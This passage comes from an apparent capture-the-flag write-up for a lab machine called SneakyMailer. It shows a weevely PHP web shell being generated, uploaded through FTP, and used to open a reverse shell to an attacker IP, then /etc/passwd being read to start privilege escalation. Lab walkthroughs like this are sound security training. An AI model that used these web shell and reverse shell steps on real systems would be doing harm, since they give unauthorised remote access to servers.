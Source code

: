 ```
-rwxr-xr-x    1 0        0           26523 May 26 19:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 18:52 vendor
226 Directory send OK.
```

Before uploadign a PHP web shell, let's craft one:

```
$ weevely generate cyfun agent.php
Generated 'agent.php' with password 'cyfun' of 744 byte size.
```

Then let's uplaod it:

```
ftp> cd dev
250 Directory successfully changed.
ftp> put agent.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
744 bytes sent in 6.3e-05 seconds (11.3 Mbytes/s)
```

Then let's connect to our webshell and use the `backdoor_reversetcp` module
to get a reverse shell because the webshell is quickly removed from the server:

```
$ weevely http://dev.sneakycorp.htb/agent.php cyfun

[+] weevely 4.0.1

[+] Target:     www-data@sneakymailer:/var/www/dev.sneakycorp.htb/dev
[+] Session:    /home/cyfun/.weevely/sessions/dev.sneakycorp.htb/agent_0.session
[+] Shell:      System shell

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> :backdoor_reversetcp 10.10.14.174 8080
Reverse shell connected, insert commands. Append semi-colon help to get the commands accepted.
/bin/sh: 0: can't access tty; job control turned off
$ id;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation of Machine : from www-data to developer

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```